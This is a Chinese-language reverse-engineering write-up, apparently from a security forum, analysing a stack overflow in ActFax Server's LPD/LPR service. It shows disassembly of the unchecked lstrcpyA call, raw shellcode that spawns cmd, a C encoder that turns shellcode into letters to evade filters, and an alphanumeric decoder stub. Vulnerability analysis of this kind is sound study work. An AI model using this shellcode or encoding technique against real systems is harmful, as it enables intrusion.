


# ActFax Server (LPDLPR) Remote Buffer Overflow Exploit 分析

> 原文：[`www.pediy.com/kssd/pediy12/129676.html`](https://www.pediy.com/kssd/pediy12/129676.html)

漏洞来源：`http://www.exploit-db.com/exploits/16176/`

## bug 函数定位

在 `004A4B7D` 下断点，运行程序（`F9`），调用漏洞利用程序，

这时程序断在 `004A4B7D` 这里，看堆栈，找到返回程序领空的返回地址。这里一直往下翻，找栈回溯。要翻很远。才能找到一个堆栈的返回地址。

这里我找到



在 `call` 处下断点

重新启动程序，然后启动 `poc` 程序，程序断在 `call` 处。

`Ctrl+F8` 运行

等一会，程序断在了 `004A4B7D`

按小键盘上的“-”减号

出现代码如图所示



选中 `call` 一行，直接回车，来到 `0046CEA0` 处。即为导致溢出的函数。

### Bug 函数分析

导致溢出的函数反汇编如下：

```
0046CEA0  /$  81EC 00020000  sub esp,0x200
0046CEA6  |.  8B8424 080200>mov eax,dword ptr ss:[esp+0x208]
0046CEAD  |.  53            push ebx
0046CEAE  |.  8B9C24 140200>mov ebx,dword ptr ss:[esp+0x214]
0046CEB5  |.  55            push ebp
0046CEB6  |.  56            push esi
0046CEB7  |.  8B35 94C35100 mov esi,dword ptr ds:[<&KERNEL32.lstrcpy>;  kernel32.lstrcpyA
0046CEBD  |.  57            push edi
0046CEBE  |.  8BBC24 240200>mov edi,dword ptr ss:[esp+0x224]
0046CEC5  |.  68 68FE5300   push ActFax.0053FE68                     ; /String2 = ""
0046CECA  |.  50            push eax                                 ; |String1
0046CECB  |.  C707 00000000 mov dword ptr ds:[edi],0x0               ; |
0046CED1  |.  C703 00000000 mov dword ptr ds:[ebx],0x0               ; |
0046CED7  |.  FFD6          call esi                                 ; \\lstrcpyA
0046CED9  |.  8BAC24 1C0200>mov ebp,dword ptr ss:[esp+0x21C]
0046CEE0  |.  68 68FE5300   push ActFax.0053FE68                     ; /String2 = ""
0046CEE5  |.  55            push ebp                                 ; |String1
0046CEE6  |.  FFD6          call esi                                 ; \\lstrcpyA
0046CEE8  |.  8B8C24 140200>mov ecx,dword ptr ss:[esp+0x214]
0046CEEF  |.  8D9424 100100>lea edx,dword ptr ss:[esp+0x110]
0046CEF6  |.  51            push ecx                                 ; /String2
0046CEF7  |.  52            push edx                                 ; |String1
0046CEF8  |.  FFD6          call esi                                 ; \\lstrcpyA
0046CEFA  |.  8D8424 100100>lea eax,dword ptr ss:[esp+0x110]
0046CF01  |.  50            push eax
0046CF02  |.  E8 D94A0900   call ActFax.005019E0
0046CF07  |.  A1 84865200   mov eax,dword ptr ds:[0x528684]
0046CF0C  |.  83C4 04       add esp,0x4
0046CF0F  |.  85C0          test eax,eax
0046CF11  |.  75 40         jnz XActFax.0046CF53
0046CF13  |.  8D4C24 10     lea ecx,dword ptr ss:[esp+0x10]
0046CF17  |.  68 88865200   push ActFax.00528688
0046CF1C  |.  51            push ecx
0046CF1D  |.  FFD6          call esi
0046CF1F  |.  8D5424 10     lea edx,dword ptr ss:[esp+0x10]
0046CF23  |.  52            push edx
0046CF24  |.  E8 B74A0900   call ActFax.005019E0
0046CF29  |.  83C4 04       add esp,0x4
0046CF2C  |.  8D4424 10     lea eax,dword ptr ss:[esp+0x10]
0046CF30  |.  8D8C24 100100>lea ecx,dword ptr ss:[esp+0x110]
0046CF37  |.  50            push eax                                 ; /String2
0046CF38  |.  51            push ecx                                 ; |String1
0046CF39  |.  FF15 34C35100 call dword ptr ds:[<&KERNEL32.lstrcmpA>] ; \\lstrcmpA
0046CF3F  |.  85C0          test eax,eax
0046CF41  |.  75 10         jnz XActFax.0046CF53
0046CF43  |.  5F            pop edi
0046CF44  |.  5E            pop esi
0046CF45  |.  5D            pop ebp
0046CF46  |.  B8 01000000   mov eax,0x1
0046CF4B  |.  5B            pop ebx
0046CF4C  |.  81C4 00020000 add esp,0x200
0046CF52  |.  C3            retn
0046CF53  |>  \\A1 88875200   mov eax,dword ptr ds:[0x528788]
0046CF58  |.  85C0          test eax,eax
0046CF5A  |.  74 52         je XActFax.0046CFAE
0046CF5C  |.  8B35 DC385400 mov esi,dword ptr ds:[0x5438DC]
0046CF62  |.  85F6          test esi,esi
0046CF64  |.  74 48         je XActFax.0046CFAE
0046CF66  |>  6A 00         /push 0x0
0046CF68  |.  8D5424 14     |lea edx,dword ptr ss:[esp+0x14]
0046CF6C  |.  68 00010000   |push 0x100
0046CF71  |.  52            |push edx
0046CF72  |.  6A 01         |push 0x1
0046CF74  |.  6A 01         |push 0x1
0046CF76  |.  56            |push esi
0046CF77  |.  E8 944C0100   |call ActFax.00481C10
0046CF7C  |.  83C4 18       |add esp,0x18
0046CF7F  |.  85C0          |test eax,eax
0046CF81  |.  74 24         |je XActFax.0046CFA7
0046CF83  |.  8D4424 10     |lea eax,dword ptr ss:[esp+0x10]
0046CF87  |.  50            |push eax
0046CF88  |.  E8 534A0900   |call ActFax.005019E0
0046CF8D  |.  83C4 04       |add esp,0x4
0046CF90  |.  8D4C24 10     |lea ecx,dword ptr ss:[esp+0x10]
0046CF94  |.  8D9424 100100>|lea edx,dword ptr ss:[esp+0x110]
0046CF9B  |.  51            |push ecx                                        ; /String2
0046CF9C  |.  52            |push edx                                        ; |String1
0046CF9D  |.  FF15 34C35100 |call dword ptr ds:[<&KERNEL32.lstrcmpA>]        ; \\lstrcmpA
0046CFA3  |.  85C0          |test eax,eax
0046CFA5  |.  74 17         |je XActFax.0046CFBE
0046CFA7  |>  8B76 20       |mov esi,dword ptr ds:[esi+0x20]
0046CFAA  |.  85F6          |test esi,esi
0046CFAC  |.^ 75 B8         \\jnz XActFax.0046CF66
0046CFAE  |>  A1 84865200   mov eax,dword ptr ds:[0x528684]
0046CFB3  |.  5F            pop edi
0046CFB4  |.  5E            pop esi
0046CFB5  |.  5D            pop ebp
0046CFB6  |.  5B            pop ebx
0046CFB7  |.  81C4 00020000 add esp,0x200
0046CFBD  |.  C3            retn
```

在程序里面利用了大量 `strcpy` 函数，并且没有对参数进行检查，导致漏洞产生。程序在 `0046CEF8` 处调用 `strcpy` 函数，导致返回地址被覆盖。

```
0046CEE8  |.  8B8C24 140200>mov ecx,dword ptr ss:[esp+0x214]
0046CEEF  |.  8D9424 100100>lea edx,dword ptr ss:[esp+0x110]
0046CEF6  |.  51            push ecx                                         ; /String2
0046CEF7  |.  52            push edx                                         ; |String1
0046CEF8  |.  FFD6          call esi                                         ; \\lstrcpyA
0046CEFA  |.  8D8424 100100>lea eax,dword ptr ss:[esp+0x110]
0046CF01  |.  50            push eax
```

### Bug 利用

漏洞利用程序使用了存字母的 `shellcode`，本人能力有限，就不在此误人子弟了。收集了一些字母 `shellcode` 的资料，分享给大家。

转：`http://www.7747.net/kf/201012/80407.html`

算法描述：将字符取前、后 4 位各加上一个 `key`(例如 `0x41`)，分解为两个字符。

`shellcode` 字符范围为 `0x00` - `0xFF` 为 `2⁸` = `256` 个字符，每个字符拆解过后的两个部分取值范围为 `2⁴` = `16` = `0x10`

加上一个适当的 `key`，以 `0x41` 为例每个部分取值范围为 `0x41` - `0x51` 即为 ascii 码的 A - Q，所以全部是 A-Q 的大写字母。

当然，在会被转换成小写的时候(如 Cmail hello 溢出漏洞)，选用 `0x61` 为 `key`，就得到全小写字母的字符范围。

算法代码示例（C++）

`base16.cpp`:

```
#include <stdio.h>

typedef struct _Byte_base16
{
unsigned o1 : 4;
unsigned o0 : 4;
}Byte_base16, *PByte_base16;

unsigned char shellcode[] =
"\x33\xC0"             //       xor     eax, eax
"\x66\xB8\x72\x74"     //       mov     ax, 7472
"\x50"                 //       push    eax
"\x68\x6D\x73\x76\x63" //       push    6376736D
"\x54"                 //       push    esp
"\xB8\xcf\x05\xe7\x77" //       mov     eax, 0x77e705cf
"\xFF\xD0"             //       call    eax
"\x99"                 //       cdq
"\x66\xBA\x63\x6D"     //       mov     dx, 6D63
"\x52"                 //       push    edx
"\xC6\x44\x24\x02\x64" //       mov     byte ptr [esp+2], 64
"\x54"                 //       push    esp
"\xB8\xbf\x8e\x01\x78" //       mov     eax, 0x78018ebf
"\xFF\xD0"             //       call    eax
"\x99"                 //       cdq
"\x52"                 //       push    edx
"\xB8\x1a\xe0\xe6\x77" //       mov     eax, 0x77e6e01a
"\xFF\xD0";            //       call    eax

int main(int argc,char* argv[])
{
```


## 代码片段

```c
unsigned char key = 0x41; //key to base16
PByte_base16 p;
int i = 0;
while(shellcode[i])
{
  p = (PByte_base16)(&shellcode[i++]);
  printf("%c%c",p->o0 + key,p->o1 + key);
}
return 0;
}
```

## 相关文件

`poc`

`16176.rar`

漏洞程序

`actfax_setup_en.part1.rar`

`actfax_setup_en.part2.rar`

`actfax_setup_en.part3.rar`

`actfax_setup_en.part4.rar`

字母 `shellcode` 资料

`alpha2.rar`

黑防 `2008.4.rar`

## 汇编代码

```
seg000:0100                  push    di
seg000:0101                  pop     cx
seg000:0102                  dec     cx
seg000:0103                  dec     cx
seg000:0104                  dec     cx
seg000:0105                  dec     cx
seg000:0106                  dec     cx
seg000:0107                  dec     cx
seg000:0108                  dec     cx
seg000:0109                  dec     cx
seg000:010A                  dec     cx
seg000:010B                  dec     cx
seg000:010C                  dec     cx
seg000:010D                  dec     cx
seg000:010E                  dec     cx
seg000:010F                  dec     cx
seg000:0110                  dec     cx
seg000:0111                  dec     cx
seg000:0112                  aaa
seg000:0113                  push    cx
seg000:0114                  pop     dx
seg000:0115                  push    41h
seg000:0117                  pop     ax
seg000:0118                  push    ax
seg000:0119                  xor     [bx+di+30h], al
seg000:011C                  inc     cx
seg000:011D                  imul    ax, [bx+di+41h], 51h
seg000:0121                  xor     al, [bx+di+42h]
seg000:0124                  xor     al, [bp+si+42h]
seg000:0127                  xor     [bp+si+42h], al
seg000:012A                  inc     cx
seg000:012B                  inc     dx
seg000:012C                  pop     ax
seg000:012D                  push    ax
seg000:012E                  cmp     [bx+di+42h], al
seg000:0131                  jnz     short near ptr 17Dh
seg000:0133                  dec     cx
seg000:0134                  jb      short near ptr 17Ch
seg000:0136                  dec     di
seg000:0137                  jno     short near ptr 193h
seg000:0139                  push    79h
seg000:013B                  outsw
seg000:013C                  xor     al, 4Fh
seg000:013E                  xor     [bp+si+50h], dx
seg000:0141                  push    dx
seg000:0142                  jb      short near ptr 18Eh
seg000:0144                  ja      short near ptr 1B8h
seg000:0146                  push    bx
seg000:0147                  push    4D58h
seg000:014A                  jbe     short near ptr 19Ah
seg000:014C                  jnz     short near ptr 1BAh
seg000:014E                  jnz     short near ptr 1A5h
seg000:0150                  inc     dx
seg000:0151                  jp      short near ptr 195h
seg000:0153                  push    sp
seg000:0154                  dec     dx
seg000:0155                  dec     di
seg000:0156                  outsw
seg000:0157                  dec     ax
seg000:0158                  xor     dl, [bx+74h]
seg000:015B                  jo      short near ptr 1CDh
seg000:015D                  xor     [bx+si+74h], dl
seg000:0160                  dec     sp
seg000:0161                  dec     bx
seg000:0162                  js      short near ptr 1DEh
seg000:0164                  insb
seg000:0165                  outsw
seg000:0166                  jb      short near ptr 1BDh
seg000:0168                  pop     cx
seg000:0169                  jp      short near ptr 1D7h
seg000:016B                  outsw
seg000:016C                  xor     dl, [di+48h]
seg000:016F                  db      67h
seg000:016F                  dec     bx
seg000:0171                  dec     di
seg000:0172                  dec     bx
seg000:0173                  push    di
seg000:0174                  inc     cx
```

## 说明

这段应该是 `eggedi`，解密 `shellcode` 的。解码方式跟这个 `http://bbs.pediy.com/showthread.php?t=113227` 差不多，有优化。`cx` 代替了 `ecx`。
